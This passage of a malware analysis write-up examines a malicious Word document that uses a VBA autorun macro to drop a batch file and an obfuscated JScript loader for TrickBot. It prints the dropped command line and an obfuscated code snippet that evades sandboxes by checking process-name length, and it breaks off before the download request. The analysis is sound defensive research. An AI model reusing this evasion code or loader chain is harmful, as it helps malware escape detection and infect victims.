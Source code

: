 


Figure 2. Content of ChessBrainVBA project


On the form there is a Label control containing the malicious JS code, outlined with a red rectangle. 
One of the VBA modules has an autorun() function that is called automatically when the Word document opens. The VBA code then extracts two files onto the victim’s system. 
One file is “C:\AprilReport\LogsTsg\LogsTsg7\LogsTsg8\List1.bat”, with content “cscript //nologo C:\AprilReport\List1.jse”, and the other is “C:\AprilReport\List1.jse”, with JavaScript code from the Label control in Figure 2, which is a huge obfuscated JavaScript code. It then starts the first extracted file “List1.bat”, which calls “cscript” running the huge JavaScript file “List1.jse”.
Anti-Analysis Applied in JavaScript Code
The JavaScript code is very heavily obfuscated. This protects the API function calls and constant strings from being identified. They also use a lot of anonymous functions.
When the code starts, it first waits around one minute to bypass any auto-analysis tools by seeming to be inert.
After waiting, it then executes the command "Select * from Win32_Process" to obtain all running processes. It then puts all of the names of these obtained processes together and checks to see if its length is less than 3100. If so, it will raise an exception and close. Usually, on a real computer, this length is larger than 3100. In this measure, it is better able to bypass many auto-analysis systems, including Sandboxes and Virtual Machines.
The following code snippet shows the code used to process name length checking:


if (msdgnwould99[var001] < 3100 && msdgnMarch16)     {            this[(function(unwask5) {                 unwask5[Tvif_rt] = 3;                 unwask5[Tvif_rt - 6] = 83;                 return nSjWorb(nSjWorbEx() + (unwask5[60] - unwask5[Tvif_rt]), 'f');             })(Dikrt, null, true, 'andall4') + (function(fhhreme3) {                 fhhreme3[Tvif_rt] = 0;                 fhhreme3[Tvif_rt - 6] = 111;                 return nSjWorb(nSjWorbEx() + (fhhreme3[60] - fhhreme3[Tvif_rt]), 'f');             })(Dikrt) + (function(vjvlike73) {                 vjvlike73[Tvif_rt] = 2;                 vjvlike73[Tvif_rt - 6] = 113;                 return nSjWorb(nSjWorbEx() + (vjvlike73[60] - vjvlike73[Tvif_rt]), 'f');             })(Dikrt, 'outfit92', 'really69')]((function(kuicur4) {                 kuicur4[Tvif_rt] = 2;                 kuicur4[Tvif_rt - 6] = 78;                 return nSjWorb(nSjWorbEx() + (kuicur4[60] - kuicur4[Tvif_rt]), 'f');             })(Dikrt, 'tits24', 2872) + (function(jiqthin4) {                 jiqthin4[Tvif_rt] = 4;                 jiqthin4[Tvif_rt - 6] = 105;                 return nSjWorb(nSjWorbEx() + (jiqthin4[60] - jiqthin4[Tvif_rt]), 'f');             })(Dikrt, 'nice54', 2910, 'dudes7', 'stop11') + (function(utscust3) {                 utscust3[Tvif_rt] = 3;                 utscust3[Tvif_rt - 6] = 104;                 return nSjWorb(nSjWorbEx() + (utscust3[60] - utscust3[Tvif_rt]), 'f');             })(Dikrt, null, 'this43', null) + (function(fisth3) {                 fisth3[Tvif_rt] = 3;                 fisth3[Tvif_rt - 6] = 78;                 return nSjWorb(nSjWorbEx() + (fisth3[60] - fisth3[Tvif_rt]), 'f');             })(Dikrt, 'daughter92', null, 'when24') + (function(fuecusto3) {                 fuecusto3[Tvif_rt] = 1;                 fuecusto3[Tvif_rt - 6] = 118;                 return nSjWorb(nSjWorbEx() + (fuecusto3[60] - fuecusto3[Tvif_rt]), 'f');             })(Dikrt, 'this43') + (function(jpsaske4) {                 jpsaske4[Tvif_rt] = 3;                 jpsaske4[Tvif_rt - 6] = 113;                 return nSjWorb(nSjWorbEx() + (jpsaske4[60] - jpsaske4[Tvif_rt]), 'f');             })(Dikrt, 'andall4', true, 'nothin66') + (function(ujnthey3) {                 ujnthey3[Tvif_rt] = 4;                 ujnthey3[Tvif_rt - 6] = 107;                 return nSjWorb(nSjWorbEx() + (ujnthey3[60] - ujnthey3[Tvif_rt]), 'f');             })(Dikrt, true, 'daughter92', true, true));         }


To analyze this JavaScript code, I created some local variables to split the anonymous function result. “msdgnwould99[var001]” is the length of all process names, where “msdgnwould99” contains all process names, and  “var001” is a created local variable whose value is “length”.  msdgnMarch16 is a variable with a default value of “1”. The “if” sub-branch also calls a non-existent function that raises an exception and exits.
Downloading the TrickBot Payload and Maintaining Persistence
The JavaScript code then downloads a file from its sever. The request looks like this:
